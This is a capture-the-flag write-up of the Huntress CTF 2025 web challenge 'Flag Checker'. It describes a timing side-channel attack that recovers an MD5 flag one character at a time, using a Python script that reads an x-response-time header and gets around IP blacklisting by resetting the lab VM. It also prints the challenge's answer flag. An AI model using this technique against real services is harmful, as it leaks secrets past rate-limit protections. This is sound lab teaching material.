



# Huntress CTF 2025 -- 🌐 Flag Checker

- **Team:** r4ph3cks
- **Date:** 01/10/2025

## Challenge Information

- **Category:** 🌐 Web

- **Description:**
> We've decided to make this challenge really straight forward. All you have to do is find out the flag!
>
> Juuuust make sure not to trip any of the security controls implemented to stop brute force attacks...

- **Author:** [Soups71](https://github.com/Soups71)

## Analysis and Solution

We were given a virtual machine to launch, which, after initialization, displayed the following HTML page:



We did not receive any source code for the page. By inspecting the HTML, scripts, and network requests, we determined that the likely attack vector was sending requests to the ```/submit``` endpoint. This endpoint takes user input from the text box and sends it using a GET request in the format ```/submit?flag=flag{this_flag_is_cool}```.

After testing for command injection and other techniques, we decided to try a timing-based attack. We chose this approach because of the message displayed below the text box: __“Brute forcing won't work, we got a new security team.”__ Although timing attacks are uncommon in CTFs, it seemed worth a try.

We started by sending a single character to observe the response time, for example ```/submit?flag=a```. Initially, we didn’t notice the ```x-response-time``` header in the response. This header is important because it’s manually set by the server—not by the browser. That means it represents the actual processing time on the server, unaffected by network noise or delays. Sending a request gave us the following response:




The last header shows the server’s calculated response time as ```0.001048 seconds```. When we sent ```flag{```, we observed a noticeably higher response time:



The difference in response times suggested that by appending characters after ```flag{```, we could detect variations corresponding to correct characters. Since the flag was an MD5 hash, its length inside the braces was 32 characters, using the charset ```0123456789abcdef```.

Unfortunately, after 11 requests, our IP was blacklisted, preventing us from sending further requests:


At that point, we had only reached the character ```a```. The simplest workaround was to reset the VM, obtain a new URL, and continue testing. For this, we created the following Python script:

```python
import requests

MD5_CHARSET = '0123456789abcdef'
TARGET_LENGTH = 37; # flag{32 char hash}
FLAG = "flag{"
URL = ""
REQUESTS_TIMES = []
MAX_TRIES = 11

def make_requests(char):
    print(f'TRYING CHAR: ' + char)
    response = requests.get("http://" + URL + "/submit?flag=" + FLAG + char)
    if (response.status_code == 200):
        elapsedTime = response.headers.get("x-response-time")
        print(f'Request done with response time: ' + elapsedTime)
        REQUESTS_TIMES.append(elapsedTime)
    else:
        print(f'An error occured when sending request to {URL}')

if __name__ == '__main__':
    left_requests = 0

    while len(FLAG) < TARGET_LENGTH:
        print(f'FLAG LENGTH {len(FLAG) - 4}')
        for char in MD5_CHARSET:
            if left_requests == 0:
                URL = input('URL: ').strip()
                if not URL:
                    print("Invalid URL. Try again.")
                    left_requests = 0
                    while not URL:
                        URL = input('URL: ').strip()
                left_requests = MAX_TRIES

            make_requests(char)

            left_requests -= 1

        most_elapsed_time = max(REQUESTS_TIMES)
        most_elapsed_char = MD5_CHARSET.__getitem__(REQUESTS_TIMES.index(most_elapsed_time))

        FLAG = FLAG + most_elapsed_char
        print(f'Got char: {most_elapsed_char}. Flag: {FLAG}')

        REQUESTS_TIMES = []

    print(f'Final FLAG: {FLAG}')
```

This script iterates through every possible character for the flag and requests a new URL whenever all attempts are exhausted. Although the implementation could be simplified, it served our purpose.

During execution, we observed that when a character was correct, the response time was approximately ```0.1 seconds``` longer than the others. By continuing this process for a while, we successfully discovered the flag.

### Flag:

```
flag{77ba0346d9565e77344b9fe40ecf1369}
```
